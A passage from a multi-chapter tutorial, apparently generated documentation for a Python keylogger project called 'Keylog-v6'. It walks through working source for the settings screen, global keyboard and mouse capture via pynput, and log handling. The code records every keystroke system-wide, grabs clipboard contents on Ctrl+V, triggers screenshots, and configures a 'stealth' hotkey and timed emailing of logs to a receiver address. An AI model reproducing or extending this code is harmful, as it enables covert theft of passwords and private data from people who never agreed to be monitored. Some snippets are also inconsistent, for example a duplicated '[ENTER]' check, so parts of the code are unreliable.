

The core task of `save_settings` is to get the data from the GUI widgets and store it in the `AdvancedKeylogger` object's variables. These variables (like `self.log_folder`, `self.email_config`, `self.hotkeys`) are then used by other parts of the keylogger when needed.

Let's examine a simplified version of the `save_settings` code:

```python
# File: keylogger_v6.py (inside AdvancedKeylogger)

    def save_settings(self):
        # 1. Read from GUI and update internal variables
        self.log_folder = self.folder_entry.get() or "keylogs" # Get text from folder field, use default if empty
        os.makedirs(self.log_folder, exist_ok=True) # Ensure folder exists

        self.email_config["enabled"] = self.email_enabled.get() # Get state from email checkbox
        self.email_config["email"] = self.email_entry.get() # Get text from email field
        self.email_config["password"] = self.pass_entry.get() # Get text from password field
        self.email_config["receiver"] = self.receiver_entry.get() # Get text from receiver field

        try:
            # Get text from interval field and convert to integer
            self.email_config["interval"] = int(self.interval_entry.get())
        except ValueError:
            # If conversion fails (not a number), use default
            self.email_config["interval"] = 300

        # Get log interval from advanced settings
        try:
            self.log_interval = int(self.log_interval_entry.get())
        except ValueError:
            self.log_interval = 30 # Default value

        # Get hotkey values from advanced settings
        self.hotkeys["stealth"] = self.stealth_hotkey_entry.get() or "f12" # Get text, use default if empty
        self.hotkeys["pause"] = self.pause_hotkey_entry.get() or "f11" # Get text, use default if empty

        # 2. Perform actions based on settings
        if self.auto_delete.get(): # Check the state of the auto-delete checkbox
            self.delete_old_logs() # Call the method to delete logs

        # Restart the hotkey listener to pick up new hotkeys
        self.restart_hotkey_listener() # This method stops and starts the listener

        # 3. Provide feedback to the user
        messagebox.showinfo("Success", "Settings saved.")

```
This method demonstrates the two main steps:

1.  **Reading and Updating:** It uses the `.get()` method on the GUI widgets (`Entry.get()`, `BooleanVar.get()`) to retrieve the user's input and then assigns these values to the corresponding instance variables (`self.log_folder`, `self.email_config`, `self.hotkeys`). It includes basic error handling (like for the interval which must be a number) and uses default values if an entry is left blank.
2.  **Applying Changes:** It then calls other methods (`os.makedirs`, `self.delete_old_logs`, `self.restart_hotkey_listener`) that need to react immediately to the new settings.

Notice that the email configuration is stored in a dictionary `self.email_config`, and hotkeys in `self.hotkeys`. This is a common way to group related settings.

The `delete_old_logs` method is called if the user checks the "Auto Delete" box and clicks "Save Settings". Its job is to iterate through the log folder and remove files older than 7 days.

```python
# File: keylogger_v6.py (inside AdvancedKeylogger)

    def delete_old_logs(self):
        # Iterate through all items in the log folder
        for file in os.listdir(self.log_folder):
            file_path = os.path.join(self.log_folder, file)
            # Check if it's a file and ends with .txt
            if os.path.isfile(file_path) and file.endswith(".txt"):
                # Get creation time of the file
                creation_time = datetime.datetime.fromtimestamp(os.path.getctime(file_path))
                # Calculate the time difference
                age = datetime.datetime.now() - creation_time
                # Check if the file is older than 7 days
                if age > datetime.timedelta(days=7):
                    try:
                        # If older than 7 days, delete the file
                        os.remove(file_path)
                        print(f"Deleted old log file: {file_path}") # Optional: print to console
                    except Exception as e:
                        print(f"Failed to delete {file_path}: {e}") # Optional: print error
```
This method is a good example of how a setting (auto-delete enabled) triggers specific application logic.

**Note:** While Keylog-v6 allows you to *set* these preferences via the GUI and the `save_settings` method updates the application's *current state* (the variables in the `AdvancedKeylogger` object), the provided code does **not** save these settings persistently to a file (like a `.ini` or `.json` file) so they are remembered the next time you run the application. The settings reset to their defaults (`self.log_folder = "keylogs"`, `self.email_config = {...}`, etc. in `__init__`) every time you start the program. Implementing persistent saving/loading would be a useful enhancement!

### Conclusion

Settings and Configuration are essential for making the Keylog-v6 application flexible and customizable. The GUI provides the visual interface (fields, checkboxes) for you to enter your preferences. The `save_settings` method is the core logic that reads these inputs from the GUI widgets and updates the corresponding internal variables within the `AdvancedKeylogger` object. Some settings, like hotkeys or auto-delete, also trigger immediate actions when saved.

While the current version doesn't save settings permanently between runs, this chapter showed you how the GUI allows you to modify the application's behavior during its current session.

Now that we know how to control the application's behavior through settings, let's dive into the most fundamental part: how the application actually *listens* for the keys you press.

[Next Chapter: Input Listener](04_input_listener_.md)

---
# Chapter 4: Input Listener

Welcome back! In [Chapter 3: Settings and Configuration](03_settings_and_configuration_.md), we learned how to tell the Keylog-v6 application *what* we want it to do by changing its settings. But how does the application actually *do* the main thing a keylogger is supposed to do – that is, detect which keys you're pressing?

This is where the **Input Listener** comes in.

### The Ears of the Keylogger

Imagine the `AdvancedKeylogger` application is like a detective. It needs to gather evidence about what's happening on the computer. The GUI (from Chapter 2) is the detective's control panel, and the settings (from Chapter 3) are the instructions. But the detective needs "ears" to actually *hear* (or rather, *detect*) the keyboard typing and mouse clicking.

The Input Listener is that part. It's the component that quietly runs in the background, constantly paying attention to all the keyboard keys being pressed and mouse buttons being clicked across the *entire* computer system, no matter which application you are currently using.

When you press a key like 'A' or 'Enter', or click your left mouse button, the Input Listener detects this event. It then takes the information about which key or button was used and passes it along to the rest of the keylogger for recording and display.

This crucial task is handled by a powerful Python library called `pynput`.

### Meeting `pynput`

`pynput` is a Python library that makes it relatively easy for your script to control and monitor input devices like keyboards and mice. It can do two main things:

1.  **Control:** Make your script type keys or move/click the mouse (we don't do this in Keylog-v6).
2.  **Listen:** Detect key presses and mouse clicks as they happen (this is what Keylog-v6 uses it for).

`pynput` works by "hooking" into the operating system's input events. This means that when you press a key, the operating system notifies `pynput`, and `pynput` then notifies your Python script.

For Keylog-v6, we are interested in two main parts of `pynput`:

*   `pynput.keyboard.Listener`: Used to detect keyboard events (pressing and releasing keys).
*   `pynput.mouse.Listener`: Used to detect mouse events (clicking, moving, scrolling - Keylog-v6 only listens for clicks).

### Starting the Listeners

The Input Listener isn't active all the time. It only starts working when you click the "Start Logging" button in the GUI. We saw this button back in [Chapter 2: Graphical User Interface (GUI)](02_graphical_user_interface__gui__.md), and we know clicking it calls the `self.start_logging()` method in our `AdvancedKeylogger` class.

Inside the `start_logging` method is where the Input Listeners are created and told to start listening.

Let's look at a simplified snippet of the `start_logging` method:

```python
# File: keylogger_v6.py (inside AdvancedKeylogger)

def start_logging(self):
    if self.is_logging:
        return # Don't start if already logging

    self.is_logging = True
    self.is_paused = False
    # ... other setup like resetting stats, updating button states ...

    self.status_label.configure(text="Status: Logging started...")

    # 1. Create the keyboard listener thread
    self.log_thread = threading.Thread(target=self.log_keys, daemon=True)
    # 2. Start the keyboard listener thread
    self.log_thread.start()

    # 3. Create the mouse listener
    self.mouse_listener = mouse.Listener(on_click=self.on_mouse_click)
    # 4. Start the mouse listener
    self.mouse_listener.start()

    # ... start other threads like email sender or auto-saver ...
    self.session_stats["start_time"] = datetime.datetime.now()

```

In this snippet:

*   The line `self.log_thread = threading.Thread(target=self.log_keys, daemon=True)` creates a `threading.Thread`. Why a thread? Because `pynput`'s listener runs in a loop, constantly waiting. If it ran directly in the main part of the program, it would freeze the GUI! Running it in a separate thread allows the GUI to remain responsive while `pynput` listens in the background.
*   The `target=self.log_keys` part tells this thread to run the `self.log_keys` method. This `log_keys` method is where the `pynput` *keyboard* listener is actually created and started.
*   `self.log_thread.start()` makes the thread begin its work.
*   `self.mouse_listener = mouse.Listener(on_click=self.on_mouse_click)` creates the *mouse* listener directly. Notice it's given an `on_click` argument, which points to the method `self.on_mouse_click`. This tells the mouse listener: "Hey, when you detect a mouse *click*, call the `self.on_mouse_click` method!"
*   `self.mouse_listener.start()` starts the mouse listener. It also runs in a background thread managed by `pynput` itself.

So, clicking "Start Logging" triggers the creation and starting of these two background listeners.

### How the Listener Works (Under the Hood)

What happens inside `self.log_keys` and when `on_mouse_click` is triggered?

Let's look at the `log_keys` method, which contains the `pynput` keyboard listener:

```python
# File: keylogger_v6.py (inside AdvancedKeylogger)

def log_keys(self):
    # This function runs in a separate thread!

    # Define what happens WHEN a key is pressed
    def on_press(key):
        # If logging is stopped or paused, ignore the key
        if not self.is_logging or self.is_paused:
            return

        try:
            # Get timestamp and time interval since last key
            timestamp = datetime.datetime.now()
            time_str = timestamp.strftime("%Y-%m-%d %H:%M:%S.%f")[:-3]
            interval = 0.0 if self.last_key_time is None else (timestamp - self.last_key_time).total_seconds()
            self.last_key_time = timestamp # Update last key time

            # Process the key object into a readable string (like 'a', 'B', '[ENTER]')
            key_str = self.process_key(key)

            if key_str: # Only log if process_key returned something
                # Format the log entry
                log_entry = f"[{time_str}]  {key_str} ({interval:.0f}s)"

                # Add the entry to our list of keys
                self.keys.append(log_entry)

                # Add to current session keys (for session saving)
                self.current_session_keys.append(key_str if key_str not in ["[ENTER]", "[SCREENSHOT]"] else "")

                # Update the GUI preview window
                self.update_preview(log_entry)

                # Update session statistics
                self.session_stats["keys_pressed"] += 1
                self.session_stats["most_used"][key_str] = self.session_stats["most_used"].get(key_str, 0) + 1

                # Trigger actions based on specific keys (like Enter or Ctrl+V)
                if key_str == "[ENTER]":
                    self.create_new_session_folder()
                    self.save_session_content() # Save collected text for this session
                    self.current_session_keys = [] # Start a new session buffer
                elif key_str in ["[ENTER]", "[CTRL+V]"]: # Also trigger screenshot on Enter or Ctrl+V
                     self.take_screenshot()

        except Exception as e:
            # If something goes wrong processing the key, log the error
            timestamp = datetime.datetime.now().strftime("%Y-%m-%d %H:%M:%S.%f")[:-3]
            self.keys.append(f"[{time_str}] Error: {str(e)}")


    # Create the actual pynput keyboard listener object
    # Tell it to call on_press whenever a key is pressed
    with keyboard.Listener(on_press=on_press) as listener:
        # This line starts the listening loop and blocks until the listener is stopped
        listener.join() # Keep listening until the thread is stopped

```

And here's the `on_mouse_click` method, called by the mouse listener:

```python
# File: keylogger_v6.py (inside AdvancedKeylogger)

def on_mouse_click(self, x, y, button, pressed):
    # This method is called by pynput's mouse listener thread

    # Only process the event if logging is active, not paused, and the button was pressed down (not released)
    if not self.is_logging or self.is_paused or not pressed:
        return

    # Get timestamp and time interval
    timestamp = datetime.datetime.now()
    time_str = timestamp.strftime("%Y-%m-%d %H:%M:%S.%f")[:-3]
    interval = 0.0 if self.last_key_time is None else (timestamp - self.last_key_time).total_seconds()
    self.last_key_time = timestamp # Update last key time

    # Determine which button was clicked
    button_str = "Left" if button == mouse.Button.left else "Right"
    log_entry = f"[{time_str}]  [MOUSE_{button_str}] ({interval:.0f}s)" # Format entry

    # Add to keys list and update preview
    self.keys.append(log_entry)
    self.update_preview(log_entry)

    # Update session statistics
    self.session_stats["keys_pressed"] += 1 # Mouse clicks also count as "events" for total
    self.session_stats["most_used"][f"[MOUSE_{button_str}]"] = self.session_stats["most_used"].get(f"[MOUSE_{button_str}]", 0) + 1
```

Putting it together, here's the simplified flow:



Essentially:

1.  You click "Start Logging".
2.  `start_logging` creates background tasks for keyboard and mouse listening using `pynput`.
3.  `pynput` hooks into the operating system's event stream.
4.  When you press a key or click the mouse, the operating system tells `pynput`.
5.  `pynput` immediately calls the function you provided (`on_press` or `on_mouse_click`) and passes it details about the event.
6.  Your `on_press` or `on_mouse_click` method processes this information, adds it to the `self.keys` list, updates the GUI preview, updates statistics, and potentially triggers other actions like saving session content or taking screenshots (as we see happening inside `on_press`).

The `process_key` method is a helper function used by `on_press` to convert the somewhat complex `key` object provided by `pynput` into a simple string like "a", "Z", or "[ENTER]".

```python
# File: keylogger_v6.py (inside AdvancedKeylogger, simplified)

def process_key(self, key):
    try:
        # If the key has a character attribute (like 'a', '!', '7')
        if hasattr(key, "char") and key.char:
            return key.char # Just return the character

        else: # It's a special key (Shift, Ctrl, Space, Enter, etc.)
            key_str = str(key).replace("Key.", "").upper() # Get key name, make uppercase

            # Handle specific common special keys for cleaner output
            if key_str == "SPACE":
                return "[SPACE]"
            elif key_str == "ENTER":
                return "[ENTER]"
            # ... etc ...

            # Handle special combinations like Ctrl+V
            if key_str in ["CTRL_L", "CTRL_R"]:
                 # Check if V is also pressed (simplified check)
                 if key_str == "CTRL_L" and keyboard.Controller().pressed(keyboard.KeyCode.from_vk(86)): # 86 is VK code for 'V'
                    clipboard = pyperclip.paste() # Get clipboard content
                    return f"[CTRL+V] Clipboard: {clipboard}" # Log Ctrl+V and clipboard
                 return f"[{key_str}]" # Just log [CTRL_L] or [CTRL_R]

            # Default for other special keys like [SHIFT], [ALT], [F1], etc.
            return f"[{key_str}]"
    except:
        return None # Return None if processing fails

```

This method translates the technical `pynput` key representation into the human-readable strings that get added to the log.

The `update_preview` method (briefly mentioned in Chapter 1 and Chapter 2) is responsible for taking the latest log entry and displaying it in the `ScrolledText` box in the GUI. It ensures you can see the activity in real-time.

```python
# File: keylogger_v6.py (inside AdvancedKeylogger, simplified)

def update_preview(self, log_entry):
    # This method needs to run in the main GUI thread!
    # (In this simplified example, it's called directly,
    #  but often you'd use root.after to schedule this call)

    self.preview_text.configure(state="normal") # Make the text box editable temporarily
    self.preview_text.delete(1.0, tk.END) # Clear the box
    # Add the last few log entries to the box
    for entry in self.keys[-15:]: # Show only the last 15 entries
        # Parse the log entry string (time, key, interval)
        date_part, key_time_part = entry.split("]  ", 1)
        key_time = key_time_part.split(" (")
        key = key_time[0].strip()
        time = f"({key_time[1]})"

        # Insert parts with different colors/fonts using tags
        self.preview_text.insert(tk.END, f"{date_part}] ", "date")
        self.preview_text.insert(tk.END, f"{key} ", "key")
        self.preview_text.insert(tk.END, f"{time}\n", "time")

    # Configure the styles for the tags (colors, fonts)
    self.preview_text.tag_configure("date", font=("Consolas", 8), foreground="#555555")
    self.preview_text.tag_configure("key", font=("Consolas", 14, "bold"), foreground="#ff0000")
    self.preview_text.tag_configure("time", font=("Consolas", 12, "bold"), foreground="#ff4500")

    # Special tag for 'SAVED' entries (like log/session/screenshot saves)
    if "SAVED" in log_entry:
        self.preview_text.tag_add("saved", "end-2l", "end-1l") # Apply tag to second to last line
        self.preview_text.tag_configure("saved", background="#00ff00") # Make background green

    self.preview_text.see(tk.END) # Scroll to the bottom
    self.preview_text.configure(state="disabled") # Make the box read-only again

```
This method is key to the real-time feel of the GUI. It visually updates the preview area whenever a new key or mouse click is logged.

### Stopping the Listeners

Just as the listeners are started when you begin logging, they must be stopped when logging ends. This happens when you click the "Stop Logging" button, which calls the `self.stop_logging()` method.

```python
# File: keylogger_v6.py (inside AdvancedKeylogger, simplified)

def stop_logging(self):
    self.is_logging = False # Set logging flag to False
    self.is_paused = False # Ensure not paused
    # ... update button states ...
    self.status_label.configure(text="Status: Logging stopped.")

    # Stop the keyboard listener thread
    # The listener.join() inside log_keys will finish when is_logging becomes False
    # A cleaner way is usually needed for pynput, but this example relies on the while loop logic.
    # For pynput, you'd typically call self.log_thread.listener.stop() if you stored the listener object.

    # Stop the mouse listener
    if self.mouse_listener:
        self.mouse_listener.stop() # pynput's Listener object has a stop() method

    self.save_log() # Save any remaining logs
    self.save_session_summary() # Save final summary

    # Clear lists and variables
    self.keys = []
    self.current_session_keys = []
    self.current_session_folder = None # Reset session folder

```
The crucial part here is `self.mouse_listener.stop()`, which correctly tells the `pynput` mouse listener to stop its background activity. Stopping the keyboard thread is slightly more involved in the actual code but involves signalling it to exit its listening loop. Once `stop_logging` finishes, the `pynput` listeners are no longer active, and no new key or mouse events will be detected and processed.

### Key Components of the Input Listener

Let's summarize the main pieces we discussed:

| Component             | Description                                                      | Role in Keylog-v6                                          |
| :-------------------- | :--------------------------------------------------------------- | :--------------------------------------------------------- |
| `pynput` Library      | Python library for monitoring/controlling input devices          | Provides the core functionality to listen to keys/mouse    |
| `keyboard.Listener`   | Part of `pynput` that listens for keyboard events                | Created in `log_keys` to detect key presses                |
| `mouse.Listener`      | Part of `pynput` that listens for mouse events                   | Created in `start_logging` to detect mouse clicks          |
| `on_press(key)`       | Function called by `keyboard.Listener` whenever a key is pressed | Processes the key, adds to log list, updates GUI, etc.     |
| `on_mouse_click(x,y,b,p)`| Function called by `mouse.Listener` whenever a button is clicked | Processes the click, adds to log list, updates GUI, etc. |
| `process_key(key)`    | Helper method in `AdvancedKeylogger`                             | Converts raw `pynput` key object to a readable string      |
| `update_preview(entry)`| Method in `AdvancedKeylogger`                                    | Displays the latest log entry in the GUI preview box       |
| `start_logging()`     | Method in `AdvancedKeylogger`                                    | Initiates and starts the listeners (and their threads)     |
| `stop_logging()`      | Method in `AdvancedKeylogger`                                    | Stops the active listeners                                 |

These components work together to form the "ears" of the keylogger, capturing every interaction you have with your keyboard and mouse when logging is active.

### Conclusion

In this chapter, we learned about the **Input Listener**, the vital part of Keylog-v6 that actively detects keyboard presses and mouse clicks across the system. We saw how the `pynput` library is used to create `keyboard.Listener` and `mouse.Listener` objects, which run in the background when you click "Start Logging".

We explored how `pynput` calls dedicated methods (`on_press` and `on_mouse_click`) whenever an input event occurs. These methods are responsible for processing the event information, adding it to the application's internal list of captured inputs (`self.keys`), and updating the real-time preview in the GUI. We also saw how this component needs to be properly stopped using the `stop_logging` method.

Now that we know how the keylogger captures input, the next logical step is to understand what happens to this captured data *after* it's collected.

[Next Chapter: Log Data Handling](05_log_data_handling_.md)

---
# Chapter 5: Log Data Handling

Welcome back! In [Chapter 4: Input Listener](04_input_listener_.md), we learned how our Keylog-v6 application uses the `pynput` library to listen for key presses and mouse clicks across your computer. We saw that when you press a key or click the mouse, the listener calls a specific method within our `AdvancedKeylogger` class, like `on_press` or `on_mouse_click`.

But what happens to that raw information *after* it's detected? A simple key press like the 'a' key isn't very useful on its own. We need to know *when* it was pressed, maybe how long it was since the *last* key was pressed, and we need a way to keep track of *all* the key presses in order.

This is where **Log Data Handling** comes in.

### The Secretary Taking Notes

Imagine the Input Listener (from the last chapter) is someone quickly jotting down everything they hear – just raw notes. The "Log Data Handling" part is like a diligent secretary who takes those rough notes, organizes them neatly, adds important details like the time the note was taken, and keeps them all together in a temporary notepad so you can review them later.

In Keylog-v6, the "notes" are the key presses and mouse clicks. The "secretary" is the code responsible for:

1.  **Receiving** the raw event details from the listener.
2.  **Formatting** these details into a clear, readable line (e.g., including a timestamp and key name).
3.  **Storing** these formatted lines temporarily in a list.
4.  **Displaying** these recent formatted lines in the real-time preview area of the GUI.

### Where the Notes are Kept: The `self.keys` List

Inside our `AdvancedKeylogger` class, there's a variable called `self.keys`. This variable is a **list**. Think of it as the temporary notepad where the secretary writes down all the formatted notes.

```python
# File: keylogger_v6.py (inside AdvancedKeylogger.__init__)

class AdvancedKeylogger:
    def __init__(self, root):
        # ... other initializations ...

        # Lists to hold data
        self.keys = [] # <-- This is our temporary list of log entries!
        self.current_session_keys = [] # (More on this in Session Management)

        # ... rest of __init__ ...
```

This `self.keys` list starts empty when the application begins. Every time the Input Listener detects a key press or mouse click, the corresponding method (`on_press` or `on_mouse_click`) will add a new formatted entry to this list.

It's important to remember that this list exists only in the computer's memory (RAM) while the application is running. If the application is closed, the contents of `self.keys` are lost unless they have been saved elsewhere (which we'll cover in [Chapter 7: Log File Management](07_log_file_management_.md)).

### Formatting the Notes

The raw data from `pynput` isn't instantly ready to be put in a log file or displayed. For example, a regular 'a' key might come as `keyboard.KeyCode(char='a')`, while the Enter key might be `keyboard.Key.enter`. We need to make these consistent and add context.

This formatting happens primarily within the `on_press` and `on_mouse_click` methods (called by the listener, as seen in Chapter 4) and a helper method called `process_key`.

Let's look at parts of `on_press` and `on_mouse_click`:

```python
# File: keylogger_v6.py (inside AdvancedKeylogger.log_keys)

    def log_keys(self, listener): # Simplified signature for clarity
        def on_press(key):
            if not self.is_logging or self.is_paused:
                return

            # 1. Get Timestamp
            timestamp = datetime.datetime.now()
            time_str = timestamp.strftime("%Y-%m-%d %H:%M:%S.%f")[:-3]

            # 2. Calculate time interval since last key
            # (Not shown here for simplicity, but it's in the full code)
            # interval = ... calculate interval ...
            # self.last_key_time = timestamp

            # 3. Process the key into a readable string
            key_str = self.process_key(key)

            if key_str:
                # 4. Format the complete log entry string
                log_entry = f"[{time_str}]  {key_str} (interval_placeholder)" # Using placeholder

                # 5. Add the entry to the self.keys list
                self.keys.append(log_entry)

                # 6. Update the GUI preview
                self.update_preview(log_entry)

                # ... update stats, handle specific keys ...

        # ... pynput listener setup (as shown in Chapter 4) ...
        with keyboard.Listener(on_press=on_press) as listener:
             listener.join() # Starts the listening loop

```

```python
# File: keylogger_v6.py (inside AdvancedKeylogger)

def on_mouse_click(self, x, y, button, pressed):
    if not self.is_logging or self.is_paused or not pressed:
        return

    # 1. Get Timestamp
    timestamp = datetime.datetime.now()
    time_str = timestamp.strftime("%Y-%m-%d %H:%M:%S.%f")[:-3]

    # 2. Calculate time interval (as above, placeholder)

    # 3. Determine button name
    button_str = "Left" if button == mouse.Button.left else "Right"

    # 4. Format the complete log entry string
    log_entry = f"[{time_str}]  [MOUSE_{button_str}] (interval_placeholder)" # Using placeholder

    # 5. Add the entry to the self.keys list
    self.keys.append(log_entry)

    # 6. Update the GUI preview
    self.update_preview(log_entry)

    # ... update stats ...
```

Notice the key steps in both methods:

1.  Get the current time using `datetime.datetime.now()` and format it into a string (`time_str`).
2.  (Simplified here, but in the code) Calculate the time elapsed since the *previous* key or click event.
3.  Call `self.process_key(key)` (for keyboard events) or determine the button name (for mouse clicks) to get a simple string representation of the input.
4.  Combine the timestamp, key/button string, and interval into a single, formatted `log_entry` string.
5.  Append this `log_entry` string to the `self.keys` list using `self.keys.append(log_entry)`.
6.  Call `self.update_preview(log_entry)` to show this new entry in the GUI.

The `process_key` method's job is specifically step 3 for keyboard events: taking `pynput`'s key object and returning a simple string.

```python
# File: keylogger_v6.py (inside AdvancedKeylogger, simplified process_key)

def process_key(self, key):
    try:
        # If it's a regular character (a, B, !, 7, etc.)
        if hasattr(key, "char") and key.char:
            return key.char # Return the character itself

        else: # It's a special key (Enter, Shift, Space, F1, etc.)
            key_str = str(key).replace("Key.", "").upper() # Get the name, make it uppercase

            # Return a consistent format for special keys
            return f"[{key_str}]" # e.g., "[ENTER]", "[SPACE]", "[SHIFT_L]"

    except Exception as e:
        # Handle errors during processing
        print(f"Error processing key: {e}")
        return "[ERROR]" # Return a special string for errors
```
This method ensures that whether you press 'A', 'enter', or 'shift', you get a consistent, easy-to-read string like 'A', `[ENTER]`, or `[SHIFT_L]` in your log entry.

### Displaying the Notes: The Real-Time Preview

As soon as a new `log_entry` is added to the `self.keys` list, the code calls `self.update_preview(log_entry)`. This method is responsible for taking the recent entries from `self.keys` and showing them in the `ScrolledText` widget in the GUI.

```python
# File: keylogger_v6.py (inside AdvancedKeylogger, simplified update_preview)

def update_preview(self, log_entry):
    # NOTE: Tkinter updates usually need to be on the main thread.
    # The full code handles this, but we simplify for clarity.

    # 1. Enable the text box temporarily to write to it
    self.preview_text.configure(state="normal")

    # 2. Clear the current content
    self.preview_text.delete(1.0, tk.END) # 1.0 means line 1, character 0; tk.END means to the end

    # 3. Insert the *last few* entries from self.keys
    # We only show recent ones to keep the preview manageable
    recent_entries = self.keys[-15:] # Get the last 15 entries
    for entry in recent_entries:
        # Optional: Parse the entry to apply colors/tags (as shown in Chapter 4)
        # For simplicity here, just insert the line
        self.preview_text.insert(tk.END, entry + "\n")

    # 4. Scroll to the bottom to see the newest entry
    self.preview_text.see(tk.END)

    # 5. Disable the text box again so the user can't type in it
    self.preview_text.configure(state="disabled")

    # (Full code also handles applying text tags for colors/formatting here)

```

This method ensures that the `ScrolledText` preview area is constantly updated with the most recent activity captured by the listener and stored in the `self.keys` list. It provides immediate feedback to the user when logging is active.

### The Log Data Handling Flow

Here's a visual summary of how a key press is handled:



This sequence shows how the event flows from being captured by the listener, processed and formatted within the `AdvancedKeylogger` methods, stored in the temporary `self.keys` list, and finally displayed in the GUI preview.

### Key Components for Log Data Handling

Let's recap the main pieces involved in handling the captured data:

| Component                 | Description                                                                 | Role in Keylog-v6                                              |
| :------------------------ | :-------------------------------------------------------------------------- | :------------------------------------------------------------- |
| `self.keys`               | A Python list variable within `AdvancedKeylogger`.                          | Temporarily stores all formatted log entries in memory.        |
| `on_press(key)`           | Method called by the `pynput` keyboard listener.                            | Formats keyboard events, adds to `self.keys`, calls `update_preview`. |
| `on_mouse_click(...)`     | Method called by the `pynput` mouse listener.                               | Formats mouse click events, adds to `self.keys`, calls `update_preview`. |
| `process_key(key)`        | Helper method called by `on_press`.                                         | Converts raw `pynput` key objects into simple, readable strings. |
| `update_preview(entry)`   | Method called by `on_press` and `on_mouse_click`.                           | Clears and updates the GUI preview with the latest entries from `self.keys`. |
| `self.preview_text`       | The `scrolledtext.ScrolledText` widget in the GUI.                          | The visual area where the real-time log preview is displayed.    |

These components work together to capture, process, store, and display the user's input events as they happen.

### Conclusion

In this chapter, we explored the concept of **Log Data Handling**. We learned that after the Input Listener ([Chapter 4: Input Listener](04_input_listener_.md)) detects a key press or mouse click, the application's `on_press` or `on_mouse_click` methods take over. These methods format the raw event into a clear log entry string, add it to the temporary `self.keys` list, and trigger an update to the GUI preview area (`self.preview_text`) using the `update_preview` method.

We now understand how the application keeps track of the input data in real-time while logging is active. However, this data is currently only stored in memory. The next crucial steps are to protect this sensitive data and save it permanently.

[Next Chapter: Data Encryption](06_data_encryption_.md)

---
# Chapter 6: Data Encryption

Welcome back! In [Chapter 5: Log Data Handling](05_log_data_handling_.md), we saw how our Keylog-v6 application captures the keys you press and mouse clicks, formats them nicely, and stores them temporarily in a list (`self.keys`) while logging is active. This is great for showing you a real-time preview, but what happens when this sensitive data needs to be saved permanently to a file on your computer?

If you save the logs just as plain text, anyone who finds the log files can easily open them and read everything you typed or clicked. This is a huge security risk, especially since keyloggers are designed to capture private information.

This is where **Data Encryption** comes in.

